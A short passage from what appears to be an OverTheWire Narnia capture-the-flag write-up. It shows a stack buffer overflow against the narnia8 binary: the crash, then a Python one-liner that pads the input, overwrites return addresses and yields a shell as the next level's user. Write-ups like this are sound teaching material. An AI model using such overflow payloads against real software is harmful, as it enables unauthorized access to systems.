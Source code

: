 ```
Segmentation fault (core dumped)
```
It looks like it is. Now we'll have to fuzz the address of the shellcode.

```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x72\xd8\xff\xff" + "B"*12 +"\x93\xd8\xff\xff"')
AAAAAAAAAAAAAAAAAAAAr���BBBBBBBBBBBB����r���
$ whoami
narnia9
$    
```
Which wasn't too bad in this case.

[overthewire]: https://www.overthewire.org
